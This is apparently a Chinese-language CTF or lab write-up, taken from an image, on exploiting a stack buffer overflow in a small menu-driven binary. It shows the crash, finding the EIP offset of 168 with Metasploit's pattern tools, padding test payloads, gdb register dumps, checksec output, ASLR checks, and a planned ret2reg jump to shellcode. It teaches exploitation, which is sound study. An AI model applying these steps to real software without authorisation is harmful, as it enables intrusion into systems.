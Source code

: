 ```
输入后：
Main Menu:
1. Extraction Points
2. Request Extraction
3. Submit Report
0. Exit
选择Submit Report 3：

输入2000值后，发现segmentation fault溢出报错！存在缓冲区溢出！
0x41366641

还发现：堆栈开始是EAX寄存器
EAX: 0xffffcfd4 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASA\324\317\377\377TAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA"...)

/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 41366641
发现偏移量为：168

python -c 'print "A" * 168 + "B" * 4'
通过测试：
EAX: 0xffffcfd4 ('A' <repeats 152 times>, "\324\317\377\377", 'A' <repeats 15 times>, "BBBB")
EIP被168个字节覆盖，但是多给的B字节走到了EAX上，在给多个C测试shellcode会走哪儿！

python -c 'print "A" * 168 + "B" * 4 + "CCCCCCCCCCCCCCCC"'
EAX: 0xffffcfd4 ('A' <repeats 152 times>, "\324\317\377\377", 'A' <repeats 12 times>, "BBBB", 'C' <repeats 16 times>)

或者：
info registers eax
x/20x $eax -32
这时候可看到：
0xffffcfc4:     0xffffcfd4      0x00000001      0x00000000      0x0804b02c
0xffffcfd4:     0x41414141      0x41414141      0x41414141      0x41414141
......

C也走到了EAX，找保护措施！那么只需要找到eax值，即可直接跳到shellcode！


checksec
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
RELRO 是一种用于加强对 binary 数据段的保护的技术。
参考：https://lantern.cool/note-pwn-linux-protect/

查看ASLR设置：
cat /proc/sys/kernel/randomize_va_space
2
或者：
sysctl -a --pattern randomize
kernel.randomize_va_space = 2

0 = 关闭
1 = 半随机。共享库、栈、mmap() 以及 VDSO 将被随机化。（留坑，PIE会影响heap的随机化。。）
2 = 全随机。除了1中所述，还有heap。
说明存在随机化！ASLR功能的程序使用ret2reg（返回寄存器）指令来利用缓冲区溢出
参考大佬：
https://www.securitylab.ru/analytics/405868.php

```